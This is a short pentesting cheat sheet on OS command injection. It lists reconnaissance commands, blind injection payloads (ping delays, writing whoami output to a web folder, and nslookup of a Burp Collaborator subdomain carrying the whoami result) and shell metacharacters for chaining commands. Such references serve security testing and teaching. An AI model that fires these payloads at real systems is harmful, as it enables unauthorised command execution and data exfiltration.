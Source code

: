```yaml
---
description: Operating System Command/shell injection.
cover: https://www.plexal.com/wp-content/uploads/2023/05/MicrosoftTeams-image-171.png
coverY: 0
---
```


# OS Command Injection

#### OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data.

## <mark style="color:red;">Useful commands</mark>

| Purpose of command    |     Linux     |    Windows    |
| --------------------- | :-----------: | :-----------: |
| Name of current user  |     whoami    |     whoami    |
| Operating system      |    uname -a   |      ver      |
| Network configuration |  ifconfig -a  | ipconfig /all |
| Network connections   | netstat -tunl |  netstat -an  |
| Running processes     |     ps -ef    |    tasklist   |

## <mark style="color:red;">Blind OS command injection</mark>

<table><thead><tr><th width="295">Method</th><th>Command</th></tr></thead><tbody><tr><td>Time delays</td><td><pre><code>&#x26;ping -c 10 127.0.0.1
</code></pre><pre><code>||ping+-c+10+127.0.0.1+||
</code></pre></td></tr><tr><td>Redirecting output</td><td><pre><code>||whoami>/var/www/images/output.txt||
</code></pre></td></tr><tr><td>Out-Of-Band (OOB)<br>DNS lookup. You can use Burp Collaborator</td><td><p></p><pre><code>||nslookup+`whoami`.x.burpcollaborator.net||
</code></pre><pre><code>||nslookup+x.burpcollaborator.net||
</code></pre></td></tr></tbody></table>

## <mark style="color:red;">Useful meta characters</mark>

```
&
&&
|
||
;
Newline (0x0a or \n)
`injected command `
$( injected command )
```
